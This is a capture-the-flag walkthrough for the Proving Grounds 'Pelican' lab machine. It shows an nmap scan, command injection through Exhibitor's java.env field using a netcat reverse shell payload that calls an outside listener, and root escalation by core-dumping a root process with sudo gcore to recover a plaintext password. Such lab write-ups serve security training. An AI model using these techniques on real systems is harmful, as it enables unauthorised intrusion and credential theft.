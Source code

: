 ```yaml
---
layout: default
title: Pelican
parent: Proving Grounds Practice - Linux
nav_order: 7
---
```


# Scanning

---

```bash
                                                                                                 [17/17]
┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/pelican]
└─$ sudo nmap -Pn -p- -sC -sV -T4 --open 192.168.232.98
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-25 00:01 EST
Nmap scan report for 192.168.232.98
Host is up (0.054s latency).
Not shown: 65526 closed tcp ports (reset)
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 a8:e1:60:68:be:f5:8e:70:70:54:b4:27:ee:9a:7e:7f (RSA)
|   256 bb:99:9a:45:3f:35:0b:b3:49:e6:cf:11:49:87:8d:94 (ECDSA)
|_  256 f2:eb:fc:45:d7:e9:80:77:66:a3:93:53:de:00:57:9c (ED25519)
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open              Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
631/tcp   open  ipp         CUPS 2.2
| http-methods:
|_  Potentially risky methods: PUT
|_http-server-header: CUPS/2.2 IPP/2.1
|_http-title: Forbidden - CUPS v2.2.10
2181/tcp  open  zookeeper   Zookeeper 3.4.6-1569965 (Built on 02/20/2014)
2222/tcp  open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 a8:e1:60:68:be:f5:8e:70:70:54:b4:27:ee:9a:7e:7f (RSA)
|   256 bb:99:9a:45:3f:35:0b:b3:49:e6:cf:11:49:87:8d:94 (ECDSA)
|_  256 f2:eb:fc:45:d7:e9:80:77:66:a3:93:53:de:00:57:9c (ED25519)
8080/tcp  open  http        Jetty 1.0
|_http-server-header: Jetty(1.0)
|_http-title: Error 404 Not Found
8081/tcp  open  http        nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Did not follow redirect to http://192.168.232.98:8080/exhibitor/v1/ui/index.html
44091/tcp open  java-rmi    Java RMI
Service Info: Host: PELICAN; OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

# Enumeration/Exploitation

---

## 8081 | HTTP

There is a vulnerability for Exhibitor for Zookeeper v1.0 that allows us to inject a reverse shell payload in the _java.env script_ secion of the Config menu.

```bash
Under the Config tab in the Exhibitor Web UI, the <E2><80><9C>java.env script<E2><80><9D> field can be modified and the new configuration pushed to ZooKeeper. Exhibitor launches ZooKeeper through a script, and the contents of this field are passed, unmodified, as arguments to the Java command to launch ZooKeeper, which can be seen here.

(The contents of the <E2><80><9C>java.env script<E2><80><9D> field are passed in as $JVMFLAGS.)

Based on how this argument is passed, there are several ways to execute arbitrary commands. The methods tested were surrounding the command with backticks and using $(), for example:

$(/bin/nc -e /bin/sh 10.0.0.64 4444 &)

This example uses netcat to open a reverse shell to a listener on 10.0.0.64:4444.

```

![config](../../../assets/images/ctfs/proving_grounds/pelican/congif.png)

After clicking the _commit_ button we get a reverse shell...

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/pelican]
└─$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [192.168.45.217] from (UNKNOWN) [192.168.232.98] 47460
id
uid=1000(charles) gid=1000(charles) groups=1000(charles)


```

# Post-Exploitation

---

## Check Sudo Permissions for Charles

```bash
charles@pelican:/opt/zookeeper/conf$ sudo -l
sudo -l
Matching Defaults entries for charles on pelican:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User charles may run the following commands on pelican:
    (ALL) NOPASSWD: /usr/bin/gcore

```

Checking GTFOBins for _gcore_ with Sudo

![gcore](../../../assets/images/ctfs/proving_grounds/pelican/gcore.png)

We can run _gcore_ with a process ID that is running as root

Checking processes...

```bash
charles@pelican:/opt/zookeeper/conf$ ps -aux | grep -i 'root'

root       493  0.0  0.0   2276    72 ?        Ss   00:37   0:00 /usr/bin/password-store

# Run gcore against PID 493
charles@pelican:/opt/zookeeper/conf$ sudo /usr/bin/gcore 493
sudo /usr/bin/gcore 493
0x00007f40ff4dd6f4 in __GI___nanosleep (requested_time=requested_time@entry=0x7ffc48e50c90, remaining=re
maining@entry=0x7ffc48e50c90) at ../sysdeps/unix/sysv/linux/nanosleep.c:28
28      ../sysdeps/unix/sysv/linux/nanosleep.c: No such file or directory.
Saved corefile core.493

# Run strings against the output file
charles@pelican:/opt/zookeeper/conf$ strings core.493
/usr/bin/passwor
////////////////
/usr/bin/passwor
////////////////
001 Password: root:
ClogKingpinInning731

```

We can use the password _ClogKingpinInning731_ to elevate to root privileges.

```bash
charles@pelican:/opt/zookeeper/conf$ su root
su root
Password: ClogKingpinInning731

root@pelican:/opt/zookeeper/conf# id
id
uid=0(root) gid=0(root) groups=0(root)
root@pelican:/opt/zookeeper/conf# whoami
whoami
root
```
